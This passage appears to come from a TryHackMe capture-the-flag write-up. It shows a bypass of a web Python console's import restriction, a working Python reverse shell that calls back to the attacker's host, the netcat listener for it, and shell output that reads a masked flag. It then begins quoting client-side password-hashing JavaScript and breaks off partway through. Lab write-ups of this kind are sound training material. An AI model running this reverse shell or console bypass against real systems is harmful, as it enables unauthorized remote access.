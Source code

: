 After successfully authentication we are redirected to a page **super-secret-admin-testing-panel.html**.
Lets leave for now part related to hash generating and open new html page.

Page http://ip-address/super-secret-admin-testing-panel.html provides us with Python web console when we can put our code.
Unfortunatelly there is some restrictions. For example **import** statement is restricted.
Lets try to bypass this restriction. 
We can try to use **\_\_import\_\_** statement.
Knowing this we can prepare our code, bypass restrictions and get reverse shell with following code:
```
o = __import__('os')
s = __import__('socket')
p = __import__('subprocess')

k=s.socket(s.AF_INET,s.SOCK_STREAM)
k.connect(("YOUR_HOST_IP_ADDRESS",7345))
o.dup2(k.fileno(),0)
o.dup2(k.fileno(),1)
o.dup2(k.fileno(),2)
c=p.call(["/bin/sh","-i"]);
```

Execute your listener:
```
nc -nvlp 7345
```

and run the code from python web console.

We should get our shell now:
```
listening on [any] 7345 ...
connect to [10.8.X.X] from (UNKNOWN) [10.10.X.X] 34130
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# ls
app
flag1.txt
# cat flag1.txt
THM{XXXXXXXXXXXXXXXXXXXX}
#
```

## Flag-2

In addition to Node.js service there is also SSH. 
The only information about credentials we have comes from **admin.html** page (username: Connor, hashed password, functions generating password's hash).
```
<script>
      // I suck at server side code, luckily I know how to make things secure without it - Connor

      function string_to_int_array(str){
        const intArr = [];

        for(let i=0;i<str.length;i++){
          const charcode = str.charCodeAt(i);

          const partA = Math.floor(charcode / 26);
          const partB = charcode % 26;

          intArr.push(partA);
          intArr.push(partB);
        }

```
